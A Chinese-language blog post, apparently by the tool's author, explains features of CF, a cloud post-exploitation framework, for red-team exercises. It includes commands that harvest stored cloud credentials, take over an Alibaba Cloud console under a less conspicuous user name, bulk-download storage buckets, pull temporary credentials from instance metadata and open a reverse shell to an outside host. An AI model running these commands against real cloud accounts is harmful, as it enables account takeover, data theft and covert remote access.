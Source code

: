 ```yaml
---
title: CF 云环境利用框架更新至 v0.4.0 版本
date: 2023-06-04 10:25:53
id: 230604-102553
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202209071737405.png
tags:
- 云安全
- 最佳实践
- CF
categories:
- 云安全
---
```


考虑到在 CF 中有些功能可能知道的人不多，这里写篇文章介绍一下。

CF 是一个云环境利用工具，当获得 AccessKey 即云服务的访问凭证后，就可以使用 CF 进行 AK 的后利用，CF 项目地址：[github.com/teamssix/cf](https://github.com/teamssix/cf)

本文介绍的功能基于 0.4.5 版本，以下介绍统一以阿里云为例，关于其他的云是否适配相关命令需要以 CF 使用手册为准，CF 使用手册地址：[wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

### 配置功能

CF 中集成了扫描本地凭证的功能，使用这个功能可以快速收集本机上存储的云访问凭证，当拿下主机权限的时候，可以使用这个功能快速收集当前主机上的云凭证信息。

```bash
cf config scan
```

另外在 CF 中使用 cf config 命令配置完凭证后，如果想查看已配置的凭证，直接加上 ls 即可

```bash
cf config ls
```

如果凭证太长没有展示全，可以加上 -a 参数，查看完整的凭证内容

```bash
cf config ls -a
```

至于删除凭证加上 del 即可

```bash
cf config del
```

如果凭证中有个参数配置错了，可以加上 mf 去修改凭证中某一项的内容

```bash
cf config mf
```

若在同一个云下配置了多个凭证，想切换凭证那直接加上 sw 即可

```bash
cf config sw
```

### 接管控制台功能

接管控制台应该是 CF 使用最高频的一个功能了，当接管阿里云控制台的时候，直接使用 cf alibaba console 命令即可，这样会自动创建一个名为 crossfire 的用户，所以当蓝队发现自己的云平台用户中有一个叫 crossfire 的用户，那么可以大概率说明自己的云已经被人搞了。

对于红队而言，如果不想那么明显，可以使用 -u 指定用户名，这样也许不会被有经验的一眼看出来

```bash
cf alibaba console -u test
```

另外，这个自定义的用户名不能和平台上已有的用户名冲突，不然会接管失败

在接管后，如果想查看之前接管的信息，直接加上 ls 即可

```bash
cf alibaba console ls
```

在接管控制台之后，如果整个利用过程已经结束、项目也已经结束的时候，建议取消接管，使用 cancel 命令即可

```bash
cf alibaba console cancel
```

### 对象存储功能

有时碰到有的 AK 权限做的比较严格，必须要指定 Bucket Name 才能列出 Buckets 里的信息，这时可以使用 -b 参数指定 Bucket Name

```bash
cf alibaba oss ls -b bucket_name
```

CF 除了查看 Buckets 整体统计信息外，也可以列出 Objects 的信息，在控制台中默认会列出前一百条 Objects 信息，同时会把完整的结果导出在 result 文件夹中，因此想查看完整的结果可以直接打开 result 中的表格文件，比在控制台上看更方便

```bash
cf alibaba oss obj ls
```

CF 也可以直接下载 Buckets 里的所有文件，方便自己手工在本地去翻敏感信息，顺便提一句，从平时打攻防和身边朋友反馈来看，Buckets 里能翻出敏感信息的概率还是蛮大的，这个就是一个细活儿了，需要耐下心来，慢慢的翻

```bash
cf alibaba oss obj get
```

有时候做攻防到最后，就是看谁更细心、更有耐心，这时考验的就是一个人的品质而不是技术了。如果只是想着拿下权限就行了，接管了 Buckets 就行了，那最后的分数或许就没有其他更有耐心、更细心的队伍高。

### 弹性实例功能

在 CF 中内置了阿里云的一些私有区域，默认情况下是不调用的，如果想遍历所有的区域来搜索 ECS，可以加上 -a 参数，兴许会有意外的惊喜

```bash
cf alibaba ecs ls -a
```

CF 在 Windows 实例中执行命令的时候，默认会以 bat 脚本执行命令，如果想以 ps 脚本执行命令，可以加上 -s ps 参数

```bash
cf alibaba ecs exec -c \$PSVersionTable -s ps
```

如果想执行多行命令，使用 -f 指定一个文本文件，在文件中写入自己想执行的命令即可

```bash
cf alibaba ecs exec -f teamssix.txt
```

在发现当前凭证下有多台实例，需要证明拥有这些实例权限的时候，可以使用 -b 命令，批量为这些实例执行三要素，从而证明权限，方便报告的编写，让裁判无话可说

```bash
cf alibaba ecs exec -b
```

有的实例也许可以在元数据中获取到临时凭证，如果我们能获取到这个临时凭证信息，兴许可以进行下一步的内网横行，但一个个的在实例中去构造、访问元数据地址太过麻烦，现在只要使用 -m 参数，就可以一键发现这些实例的元数据中有没有临时凭证

```bash
cf alibaba ecs exec -m
```

只是使用 CF 去执行命令也许会觉着不太过瘾，因此在 CF 中集成了一键反弹 Shell 的功能，只需要在自己的服务器上开启 NC 监听，然后让 CF 去反弹 Shell 就行了

```bash
cf alibaba ecs exec --lhost 123.123.123.123 --lport 4444
```

### 其他

CF 在运行前，如果距离上一次运行超过 24 小时就会检查一下有无更新，在有新版本的时候，可以使用 upgrade 命令直接更新，无需再到 GitHub 中下载

```bash
cf upgrade
```

当对 CF 中某个命令不熟悉的时候，可以直接使用 help 命令查看帮助，CF 在所有的帮助信息中，都提供了中英双语展示，是不是很贴心，还没给 CF  Star 的师傅看到这里，还不给个 Star 嘛

```bash
cf help alibaba ecs exec
```

最后，在 CF 中，我还放置了些彩蛋，应该不难找，哈哈 ～

>  更多信息欢迎关注我的个人微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204152148071.png)
